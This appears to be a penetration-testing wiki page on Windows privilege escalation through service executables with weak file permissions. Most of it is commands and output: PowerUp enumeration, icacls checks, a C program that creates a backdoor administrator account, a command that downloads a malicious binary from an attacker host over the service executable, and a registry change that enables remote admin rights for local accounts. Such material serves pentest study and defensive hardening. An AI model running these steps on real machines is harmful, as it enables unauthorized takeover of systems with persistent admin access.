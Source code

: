 # 🛠️ Weak service permissions

## Theory

File permissions in Windows control who can access, modify, or execute files on the system. If these permissions are misconfigured, unauthorized users could potentially alter or replace critical files, leading to security vulnerabilities such as unauthorized access.

Here's a quick summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure Permissions on Service Executable :

This type of abuse can occur when the binary of a Windows service is misconfigured, meaning that the permissions for this binary allow, for example, a local user without special privileges to modify it or even replace it with a malicious one, the Attacker can obtain the privileges of the service account in general a high privileges account.

For the enumeration can be done with Powershell, first using native Powershell commands (Living off the Land) But also with [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two is on the result PowerUp is able to tell you if a service is vulnerable or not while PowerShell just lists the Binary Services. In this example the **aniService** service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```

If you have identified your vulnerable binary with a tool like PowerUp or even Winpeas, you can check the permissions of this binary with **icacls.exe**. The most interesting permissions are (F) and (M) if they are related to a group such as `Everyone:` or a local user for exemple. 
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION:(RX)
                                    AUTORITÉ DE PACKAGE D’APPLICATION\TOUS LES PACKAGES D’APPLICATION RESTREINTS:(RX)
                                    AUTORITE NT\Système:(F)
                                    BUILTIN\Administrateurs:(F)
                                    Tout le monde:(F)
                                    BUILTIN\Utilisateurs:(RX)
```

In the current practical case the executable permission (F) on the group "Everyone", but if the permission was set in (M) it would also have been possible to abuse. Thanks to this bad configuration the attacker can simply replace the binary with another malicious one. it is possible to use PowerUp for automated task.
```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is launched it will just need to **restart the service** to be sure that the abuse is well worked. 

The second method consists of creating yourself your malicious binary that can have advantages including the bypass of the AV detection. Here is a simple C code that will execute a system windows command (You can of course replace the system command with another.).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

# COMPILE THE CODE
i686-w64-mingw32-gcc <CODE.c> -lws2_32 -o <FILE.exe>
```
Thanks to the wrong permission the attacker can replace the old executable by renominating it for example. Then it will be able to add the new malicious file with a name identical to the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<KALI_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```
Once the binary is replaced you have to restart the service, to check if this is possible a tool of the suite sysinternal can help, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) is a tool that allows adminsys to quickly check what type of access users or specific groups have to resources, including files, directories, registry keys, global objects and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage the start are **SERVICE_START** and **SERVICE_STOP** if they are present on your user or on a group that controls you then you can restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
There is an alternative if ever the Startup permissions are not present, with the sc.exe tool you can look at the boot method used by the service. If it is on `AUTO_START`, this means that the service starts at windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows you to reboot a Windows system. With this privilege, you can indirectly restart the service without having the direct permissions to restart it.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted your payload should be run.

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local administrators groupexcept for those with a RID of 500 (the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction. The value of the key needs to be changed.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

#### Ressources :
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)
